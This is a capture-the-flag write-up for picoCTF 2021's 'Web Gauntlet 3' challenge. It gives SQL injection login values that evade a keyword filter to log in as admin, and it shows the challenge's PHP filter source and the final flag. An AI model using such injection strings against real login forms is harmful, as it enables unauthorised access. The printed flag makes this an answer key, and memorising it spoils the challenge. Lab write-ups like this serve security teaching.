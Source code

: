 # Web Gauntlet 3

## Category - Web Exploitation
## Author - MADSTACKS

### Description: 
Last time, I promise! Only 25 characters this time. Log in as admin Site: http://mercury.picoctf.net:29772/ Filter: http://mercury.picoctf.net:29772/filter.php

### Solution:
The challenge is the exact same as Web Gauntlet 2 but we know have a 25 total character limit for our username and passoword field entry. 

Thankfully our solution for Web Gauntlet 2 is under this limit and also works for this challenge so check the writeup for that out here to get a more detailed explanation
and use the same values:
https://github.com/ZeroDayTea/PicoCTF-2021-Killer-Queen-Writeups/blob/main/WebExploitation/WebGauntlet2.md.

Final values for login:
```
username: ad'||'min
password: a' IS NOT 'b
```
After inputting these values for username and password we login and get the message "Congrats! You won! Check out filter.php". Reloading the filter.php file at 
http://mercury.picoctf.net:29772/filter.php we get the source code for the challenge along with the flag in the comments just as for Web Gauntlet 2.
```php
 <?php
session_start();

if (!isset($_SESSION["winner3"])) {
    $_SESSION["winner3"] = 0;
}
$win = $_SESSION["winner3"];
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($win === 0) {
    $filter = array("or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/", "admin");
    if ($view) {
        echo "Filters: ".implode(" ", $filter)."<br/>";
    }
} else if ($win === 1) {
    if ($view) {
        highlight_file("filter.php");
    }
    $_SESSION["winner3"] = 0;        // <- Don't refresh!
} else {
    $_SESSION["winner3"] = 0;
}

// picoCTF{k3ep_1t_sh0rt_30593712914d76105748604617f4006a}
?>
```

Note: If you successfuly ran the SQL injection but still see nothing in the filter.php file try clearing cache and then reloading or using a different browser to get the source code with flag.

### Flag:
```
picoCTF{k3ep_1t_sh0rt_30593712914d76105748604617f4006a}
```
